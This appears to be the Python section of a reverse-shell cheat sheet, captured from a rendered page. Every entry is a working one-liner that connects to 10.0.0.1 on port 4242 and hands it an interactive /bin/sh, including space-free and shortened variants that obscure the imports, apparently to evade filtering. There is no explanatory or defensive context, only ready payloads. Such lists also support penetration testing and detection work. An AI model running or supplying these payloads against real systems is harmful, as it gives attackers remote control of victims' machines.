 ### Python

Linux only

IPv4
```python
export RHOST="10.0.0.1";export RPORT=4242;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
```python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
```python
python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
```

IPv4 (No Spaces)
```python
python -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
```python
python -c 'socket=__import__("socket");subprocess=__import__("subprocess");os=__import__("os");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
```python
python -c 'socket=__import__("socket");subprocess=__import__("subprocess");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
```

IPv4 (No Spaces, Shortened)
```python
python -c 'a=__import__;s=a("socket");o=a("os").dup2;p=a("pty").spawn;c=s.socket(s.AF_INET,s.SOCK_STREAM);c.connect(("10.0.0.1",4242));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
```
```python
python -c 'a=__import__;b=a("socket");p=a("subprocess").call;o=a("os").dup2;s=b.socket(b.AF_INET,b.SOCK_STREAM);s.connect(("10.0.0.1",4242));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p(["/bin/sh","-i"])'
```
```python
python -c 'a=__import__;b=a("socket");c=a("subprocess").call;s=b.socket(b.AF_INET,b.SOCK_STREAM);s.connect(("10.0.0.1",4242));f=s.fileno;c(["/bin/sh","-i"],stdin=f(),stdout=f(),stderr=f())'
```

IPv4 (No Spaces, Shortened Further)
```python
python -c 'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("10.0.0.1",4242));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
```
```python
python -c 'a=__import__;b=a("socket").socket;p=a("subprocess").call;o=a("os").dup2;s=b();s.connect(("10.0.0.1",4242));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p(["/bin/sh","-i"])'
```
```python
python -c 'a=__import__;b=a("socket").socket;c=a("subprocess").call;s=b();s.connect(("10.0.0.1",4242));f=s.fileno;c(["/bin/sh","-i"],stdin=f(),stdout=f(),stderr=f())'
```
